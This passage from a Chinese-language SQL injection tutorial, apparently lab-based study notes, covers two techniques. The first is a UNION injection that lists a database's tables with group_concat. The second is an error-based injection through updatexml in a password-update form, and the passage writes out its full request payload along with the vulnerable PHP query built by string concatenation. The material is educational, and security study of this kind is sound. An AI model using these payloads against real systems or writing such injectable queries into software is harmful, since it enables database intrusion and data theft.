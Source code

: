 真正执行的SQL语句为：
```
select * from users where id='-1' union select group_concat(table_name) from information_schema.tables where table_schema='security'
```

**分析：**`id=-1`为假，紧接着执行后面的SQL语句，使用group_concat函数将所有结果汇总到一起输出，所以页面返回security数据库里的所有数据表。
![image.png](../../_img/02-Web安全/01-基础知识/1664334051350-f846de3e-f7f5-4a18-a4b2-4314347ef956.png)

**2.3.2、报错注入**<br />设有一个登陆页面后台SQL语句为：
```
$row1 = $row['username'];  	
$update="UPDATE users SET password = '$passwd' WHERE username='$row1'";
```

当我们输入：
```
uname=admin&passwd=' or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x7e),1) #&submit=Submit
```

实际执行的语句为：
```
UPDATE users SET password = '' or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x7e),1)
```

**分析：**`password = ''`为假，然后执行后面的语，所以页面会通过updatexml函数报错回显出security数据库里面的数据表，可以通过修改limit来查出所有的表。
![image.png](../../_img/02-Web安全/01-基础知识/1664334671147-910be957-fc8e-45b0-a306-a52b3f5b4bdd.png)
